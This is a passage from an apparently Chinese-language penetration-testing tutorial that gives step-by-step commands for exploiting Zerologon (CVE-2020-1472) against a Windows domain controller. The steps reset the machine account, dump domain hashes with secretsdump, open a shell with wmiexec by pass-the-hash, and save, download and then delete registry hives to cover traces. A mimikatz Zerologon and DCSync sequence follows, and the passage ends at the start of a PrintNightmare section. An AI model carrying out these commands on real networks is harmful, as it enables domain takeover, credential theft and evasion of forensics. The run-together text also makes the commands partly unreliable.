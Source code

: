   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    net group "domain controllers" /domain      #查询域控主机名python3 cve-2020-1472-poc.py Motoo-DCSRV 192.168.159.149   #域控主机名   域控ippython3 cve-2020-1472-exploit.py Motoo-DCSRV 192.168.159.149   #使用exploit将域控机器账号重置python3 secretsdump.py Motoo.nc/Motoo-DCSRV$@192.168.159.149    -no-pass  #四个空格python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:7c85389bc79a4eb184e620b6e8c37905 Motoo.nc/Administrator@192.168.159.149#然后通过导出 sam system 等文件到本地，获取域控机器上本地保存之前的 hash 值用于恢复，不然就脱域了：reg save HKLM\SYSTEM system.savereg save HKLM\SAM sam.savereg save HKLM\SECURITY security.saveget system.save                            #下载到比本地get sam.saveget security.save del /f system.save                         #清理痕迹del /f sam.save              #清理痕迹del /f security.save          #清理痕迹  
    #通过 sam.save、security.save、system.save  这些文件获得原来域控机器上的 Ntlm Hash 值，用于恢复密码：python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL   #提取原密码HASH#通过拿到 $MACHINE.ACC: 的值，然后进行恢复：注意需要后半部分：$MACHINE.ACC: 的值$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:ce7b34c0f2c72d6cb03123ef5ff741capython3 reinstall_original_pw.py Motoo-DCSRV 192.168.159.149 ce7b34c0f2c72d6cb03123ef5ff741ca#使用脚本来检测是否恢复密码成功：python3 secretsdump.py Motoo.nc/Motoo-DCSRV$@192.168.159.149 -just-dc -no-pass#或者还可以使用这个：注意四个空格python3 secretsdump.py Motoo.nc/Motoo-DCSRV$@192.168.159.149    -no-pass#至此整个攻击已经完成  
    

### （向右滑动、查看更多）

  

  *   *   *   *   *   * 

    
    
    #mimikatz zerologon域：hacker.testlabprivilge::debug #权限提升lsadump::zerologon /target:dc.hacker.testlab /account:dc$ #这个是poclsadump::zerologon /target:dc.hacker.testlab /account:dc$ /exploit  #这个是explsadump::dcsync /domain:HACKER.LOCAL /dc:dc.hacker.testlab /user:krbtgt /authuser:dc$ /authdomain:HACKER /authpassword:"" /authntlm #再次空密码尝试lsadump::postzerologon /target:192.168.43.100 /account:dc$ #恢复密码
    
    
    ### （向右滑动、查看更多）

##  ****

##  ****

##  **  
**

##  **  0x06PrintNightmare（CVE-2021-1675）**

    
    
      
    
    
      *   * 
    
    
    
    利⽤CVE-2021-1675 打印机服务漏洞加载DLL执⾏代码。影响2008-2019。需要域内凭证，实测2016和2019可利⽤成功使⽤impacket rpcdump.py脚本检测print spooler服务
